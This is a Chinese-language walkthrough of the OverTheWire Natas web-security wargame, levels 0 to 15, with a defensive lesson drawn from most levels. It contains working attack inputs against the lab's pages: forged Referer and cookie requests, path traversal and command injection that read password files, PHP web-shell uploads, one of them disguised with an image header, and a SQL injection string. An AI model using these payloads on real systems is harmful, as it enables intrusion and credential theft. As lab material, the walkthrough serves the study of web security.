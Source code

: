 # natas

## 0-1

基本的看源代码方法：右键--查看网页源代码。

## 1-2

禁用了右键，但是可以`F12`或者`Ctrl-U`查看源代码。

## 2-3

源代码里有`/files/pixel.png`，指向了一个`PNG`文件。

查看`/files/`目录发现`user.txt`得到密码。

**结论**：不要公开不该公开的文件和目录。

## 3-4

源代码注释写到`Not even Google will find it this time`，不可被搜索到。

直接使用`site:`进行搜索即可找到目录。

同时“不可被搜索到”说明存在`robots.txt`阻止搜索引擎，查看可以找到目录。

## 4-5

显示提示：

```
You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

说明获取密码需要从指定网站访问，但是该指定网站不可直接访问，使用`curl -e`伪造`referer`即可：

```shell
curl -u "natas4:***" -e "http://natas5.natas.labs.overthewire.org/" "http://natas4.natas.labs.overthewire.org/"
```

## 5-6

显示提示：

```
Access disallowed. You are not logged in
```

想到一般网站的登陆使用`cookie`实现，发现`cookie`中有一项`loggedin=0`，使用`curl -b`伪造此`cookie`即可：

```shell
curl -u "natas5:***" -b "loggedin=1" "http://natas5.natas.labs.overthewire.org/"
```

**结论**：要熟练掌握`ssh`，`curl`等指令伪装身份和伪造数据。

## 6-7

发现要`input secret`。

查看源码发现一段`PHP`，引用了文件`includes/secret.inc`。

前往即可找到`secret`，输入后得到密码。

## 7-8

出现俩链接`Home`，`About`。

既然用的是`page=`，又没有做任何限制，直接`page=/etc/natas_webpass/natas8`就行了。

## 8-9

又要`input secret`。

分析一下`PHP`中有用的东西：

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

encodeSecret($_POST['secret']) == $encodedSecret
```

也就是说，网页把输入的`secret`依次做了`base64`、`rev`和`bin2hex`。

那么把`encodedSecret`给`hex2bin`、`rev`再`base64 -d`一下就是`secret`了。

**结论**：双向的加密方式如果公开就等同于摆设。

## 9-10

有一个`word search`功能，实现方法是一个`Bash`。

```bash
grep -i $key dictionary.txt
```

`dictionary.txt`并没有什么有价值的东西，但重点在于`$key`左右没有引号。

尝试“搜索”`--help`，果然得到了帮助页面。

那么使用`;`隔开指令，直接尝试“搜索”`; cat /etc/natas_webpass/natas10; cat`就得到密码。

## 10-11

同样是那个`search`，但是禁用了`;|&`三个字符。

所以要考虑如何巧妙应用`grep`。

`grep`可以直接搜索多文件，用法`grep "***" FILE1 FILE2 ...`。

“搜索”`"[a..z0..9]" /etc/natas_webpass/natas10`

**结论**：网站中的有权限动作不要给用户可乘之机。

## 11-12

居然可以自己设置颜色欸，还用`cookie`保存了下来。

看源代码发现`cookie`里除了`bgcolor`还存了一个`showpassword`。

分析有用的`PHP`源码：

```php
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}

$tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);

setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
```

上面一个是解密过程，一个是加密过程，都用到了自定义的`xor_encrypt()`函数（关于`$key`循环异或）。

按照源码把`cookie`给`base64 -d`以后得到一个$41$位字符串。

按照源码把`array`给`json_encode()`以后也得到一个$41$位字符串：

```
{"showpassword":"no","bgcolor":"#ffffff"}
```

顺次异或，得到`$key='qw8J'`。

把`no`改成`yes`加密以后用`curl`上传。

**结论**：再一次证实，双向的加密方式如果公开就等同于摆设。

## 12-13

发现可以上传一个`JPEG`。

```php
$ext = pathinfo($fn, PATHINFO_EXTENSION); 
```

这句话说明上传文件的后缀名是由`filename`决定的，而直接上传会被钦点命名为`jpg`。

所以用`curl`上次一个`php`去读密码就好了

```bash
curl -isu natas12:*** 'http://natas12.natas.labs.overthewire.org' -F filename=a.php -F "uploadedfile=@-;filename=a.php" <<< '<?php passthru("cat etc/natas_webpass/natas13"); ?>'
```

##  13-14

发现这次会用`exif_imagetype`来检查文件是否是文件。

我们知道图像文件都是有一个特殊的头的，`exif_imagetype`就是检查头。

把`php`伪装即可，最方便的是`bmp`文件，开头加上`BM`就行了。

```bash
curl -isu natas13:****** 'http://natas13.natas.labs.overthewire.org' -F filename=a.php -F "uploadedfile=@-;filename=a.php" <<< 'BM<?php passthru("cat etc/natas_webpass/natas14"); ?>'
```

**结论**：上传文件要控制住类型。

## 14-15

发现要输密码，实际上是干了什么呢？是把一个字符串传入`mysql_query()`了。

字符串长这样：

```php
"SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""
```

所以让这个`query`强制从中间断开然后使其直接成立，比如设定`username='" or 1 #'`，其中`#`用来把后面直接变成注释。

